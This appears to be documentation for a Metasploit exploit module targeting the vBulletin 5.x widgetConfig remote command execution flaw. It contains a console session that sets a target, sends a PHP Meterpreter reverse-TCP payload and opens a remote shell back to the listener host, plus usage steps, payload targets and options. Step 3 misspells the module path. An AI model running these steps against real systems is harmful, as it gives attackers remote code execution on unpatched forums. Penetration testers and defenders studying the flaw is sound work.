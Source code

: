 ## Introduction

vBulletin 5.x through 5.5.4 allows remote command execution via the `widgetConfig[code]` parameter in an `ajax/render/widget_php` `routestring` `POST` request.

A proof of concept was originally published on [seclist.org](https://seclists.org/fulldisclosure/2019/Sep/31).

```
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > set lhost 192.168.1.13
lhost => 192.168.1.13
msf5 exploit(multi/http/vbulletin_widgetconfig_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444 
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Sending stage (38288 bytes) to 192.168.1.25
[*] Meterpreter session 1 opened (192.168.1.13:4444 -> 192.168.1.25:35772) at 2019-10-18 13:53:39 +0400

meterpreter > 
```

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/vbullnetin_widgetconfig_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set LHOST [IP]`
6. Do: `run`

## Targets

```
  Id  Name
  --  ----
  0   Automatic (Dropper)
  1   Linux (Stager)
  2   Windows (Stager)
  3   Unix (In-Memory)
  4   Windows (In-Memory)
```

## Options

**PHP_CMD**

Specify the PHP function in which you want execute the payload. Default: `shell_exec`

**TARGETURI**

The base URI path of vBulletin. Default: /

## Advanced options

**ForceExploit**

Override check result.

## References

  1. <https://seclists.org/fulldisclosure/2019/Sep/31>
